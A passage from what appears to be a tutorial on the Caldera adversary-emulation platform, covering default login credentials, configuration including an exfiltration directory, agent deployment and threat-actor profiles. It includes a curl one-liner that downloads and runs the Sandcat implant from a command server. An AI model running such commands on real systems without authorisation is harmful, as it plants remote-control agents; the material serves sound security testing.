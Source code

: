 Access the web interface at `http://localhost:8888` with the default credentials (red/admin).

#### Configuring Server Settings

Before running operations, modify the configuration file for your environment:

```bash
# Edit the default configuration
nano conf/default.yml

# Key settings to adjust:
# - api_key: Change default API keys
# - exfil_dir: Location for exfiltrated files
# - plugins: Enable additional capabilities
```

### Deploying Agents

Agents are the execution clients that run on target systems. Caldera supports multiple agent types for Linux environments:

#### Sandcat Agent (Default)

```bash
# Generate deployment command in the Caldera web UI:
# Navigate to Agents → Deploy an Agent

# Example deployment command for Linux
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" http://192.168.1.100:8888/file/download > sandcat.go && chmod +x sandcat.go && ./sandcat.go -server http://192.168.1.100:8888 -group red
```

#### Manx Agent (SSH-based)

For Linux environments where you have SSH access but can't deploy persistent agents:

```bash
# In the Caldera web UI:
# 1. Navigate to Plugins → Manx
# 2. Configure SSH credentials and target
# 3. Click "Connect"
```

This creates a lightweight, non-persistent agent using existing SSH channels.

### Creating Adversary Profiles

While Caldera includes predefined adversary profiles, creating custom profiles based on specific threat actors provides more relevant testing:

```bash
# In the Caldera web UI:
# 1. Navigate to Adversaries
# 2. Click "New Adversary"
# 3. Configure the following:
#    - Name: (e.g., "APT29_Emulation")
#    - Description: Purpose and references
#    - Abilities: Select techniques from each tactic
```
